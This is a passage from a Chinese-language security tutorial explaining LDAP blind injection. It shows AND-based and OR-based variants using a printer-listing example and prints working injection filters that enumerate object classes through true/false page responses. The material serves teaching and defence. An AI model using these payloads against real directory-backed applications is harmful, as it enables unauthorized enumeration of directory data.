 #### 5.1 AND盲注

假设一个Web应用想从一个LDAP目录列出所有可用的Epson打印机，错误信息不会返回，应用发送如下的过滤器：         

```
(&(objectClass=printer)(type=Epson*))

```

使用这个查询，如果有可用的Epson打印机，其图标就会显示给客户端，否则没有图标出现。如果攻击者进行LDAP盲注入攻击

```
*)(objectClass=*))(&(objectClass=void

```

Web应用会构造如下查询：      

```
(&(objectClass=*)(objectClass=*))(&(objectClass=void)(type=Epson*))

```

仅第一个LDAP过滤器会被处理：

```
(&(objectClass=*)(objectClass=*))

```

结果是，打印机的图标一定会显示到客户端，因为这个查询总是会获得结果：过滤器objectClass=*总是返回一个对象。当图标被显示时响应为真，否则为假。

从这一点来看，使用盲注技术比较容易，例如构造如下的注入：         

```
(&(objectClass=*)(objectClass=users))(&(objectClass=foo)(type=Epson*))
(&(objectClass=*)(objectClass=resources))(&(objectClass=foo)(type=Epson*))

```

这种代码注入的设置允许攻击者推测可能存在于LDAP目录服务中不同对象类的值。当响应Web页面至少包含一个打印机图标时，对象类的值就是存在的，另一方面而言，如果对象类的值不存在或没有对它的访问，就不会有图标出现。

LDAP盲注技术让攻击者使用基于TRUE/FALSE的技术访问所有的信息。

#### 5.2 OR盲注

这种情况下，用于推测想要的信息的逻辑与AND是相反的，因为使用的是OR逻辑操作符。接下来使用的是同一个例子，OR环境的注入为：

```
(|(objectClass=void)(objectClass=void))(&(objectClass=void)(type=Epson*))

```

这个LDAP查询没有从LDAP目录服务获得任何对象，打印机的图标也不会显示给客户端(FALSE)。如果在响应的Web页面中有任何图标，则响应为TRUE。故攻击者可以注入下列LDAP过滤器来收集信息：      

```
(|(objectClass=void)(objectClass=users))(&(objectClass=void)(type=Epson*))
(|(objectClass=void)(objectClass=resources))(&(objectClass=void)(type=Epson*))

```
